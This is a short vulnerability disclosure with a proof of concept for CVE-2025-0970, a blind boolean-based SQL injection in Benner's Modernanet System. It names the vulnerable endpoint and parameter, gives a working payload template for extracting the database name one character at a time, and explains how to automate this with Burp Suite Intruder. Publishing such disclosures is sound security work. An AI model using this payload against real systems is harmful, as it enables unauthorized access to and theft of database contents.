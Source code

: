 # CVE-2025-0970
The Modernanet System by Benner is vulnerable to Blind Boolean Based SQL Injection.

**Affected Version: < 1.1.1**

**OBS: Tool like SQLmap doesn't work in this case**
**

## POC

This vulnerability resides in the /Home/JS_CarregaCombo?formName=DADOS_PESSOAIS_PLANO&additionalCondition=&insideParameters=&elementToReturn=DADOS_PESSOAIS_PLANO&ordenarPelaDescricao=true&direcaoOrdenacao=asc&_=1739290047295 page in additionalCondition parameter,

Its possible to manipulate the parameter to insert any SQL query in victim database.

Payload example: `1=1) AND (CASE WHEN (SUBSTRING(DB_NAME(),X,1)='Y') THEN 1 ELSE 0 END=1)--`.

If you want to retrieve the database name, **just for the POC**, its just needed to change the argument X to the database name index and Y to the database name character.

## Request example:
![alt text](request.png)!

---

## After intercepting the request, you can use the Intruder option in BurpSuite

### Intruder Example
![alt text](intruder.png)

Observe, we have a longer response length when the letter is 'q', i.e. the first letter of the database name is 'q'.

You can repeat this, to the other letters

https://IP/Home/JS_CarregaCombo?formName=DADOS_PESSOAIS_PLANO&additionalCondition=&insideParameters=&elementToReturn=DADOS_PESSOAIS_PLANO&ordenarPelaDescricao=true&direcaoOrdenacao=asc&_=1739290047295

---

## Reference

https://modernasistemas.com.br/
